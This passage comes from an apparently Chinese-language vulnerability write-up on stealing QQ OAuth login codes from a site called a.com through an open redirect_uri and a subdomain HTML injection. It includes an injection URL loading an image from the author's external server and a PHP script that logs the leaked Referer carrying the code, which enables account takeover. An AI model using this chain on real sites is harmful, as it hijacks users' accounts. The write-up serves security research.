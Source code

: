 **Request 2：**(这个请求表示根据参数**code**的值进行个人用户凭证生成)

```http
GET /?uuid=65392bc3fc724fca8dcba23558f67ec8&code=120ED71CAECB11BAD538820E12B54664 HTTP/1.1
Host: a.com
```

**2 Response：**（setcookie返回用户凭证）

```http
HTTP/1.1 302 Moved Temporarily
Content-Length: 0
Connection: close
Set-Cookie: 用户凭证
Location: https://www.a.com/
Cache-Control: max-age=0
```

这时候我们就可以注意到问题了，请求1产生了一个链接，其就是QQ登陆的地址中的参数**redirect_uri**附带上**参数code的值**，而这个链接是生成用户凭证的，所以链接中的**参数code**也是至关重要的，看到这里我的攻击思路已经产生了：

假设QQ登陆的地址中的参数**redirect_uri**的值可以为我的网站，那么只要用户A点击我就可以根据网站日志访问记录获取参数**code**的值再根据请求2获取用户A在 http://a.com 的账号权限。

理想很好，现实残酷：

![img](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2018-02-12/0x02.jpg)

这里QQ做了限制，我不需要去分析QQ关联的全部流程就能知道这里的参数client_id，其实就是 http://a.com 的QQ互联的服务id， http://graph.qq.com 根据client_id获取 http://a.com 的设置允许的参数**redirect_uri**的值再跟你输入的参数**redirect_uri**的值进行比较。

这时候我只需要对参数**redirect_uri**进行Fuzz就能知道哪些范围是允许的：

![img](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2018-02-12/0x03.jpg)

http://a.com 的二级子域名可以为参数**redirect_uri**的值，目前我需要解决的就是如何根据 http://a.com 的二级子域名获取到code的值：

# **1.我有一个HTML注入漏洞**

漏洞地址：`http://1.a.com/?xss=%3Cimg%20src="http://www.evilchen.cn/getref.php"%3E`

getref.php的内容为如下PHP代码：

```
<?php
file_put_contents("ref.txt", $_SERVER['HTTP_REFERER']);
?>
```

将漏洞地址作为参数**redirect_uri**的值，然后诱导用户A点击登陆，这时候跳转的链接就变成了：

> http://1.a.com/?xss=%3Cimg%20src="http://www.evilchen.cn/getref.php"%3E&code=120ED71CAECB11BAD538820E12B54664

跳转之后这个链接会做为HTTP Referer的值再请求[http://www.evilchen.cn/getref.php]，那么我的服务器就会接收到code的值，再根据Request 2的值填入，我就可以获取用户A在a.com的账号权限了

# **2.我能在其他地方引用外部资源**
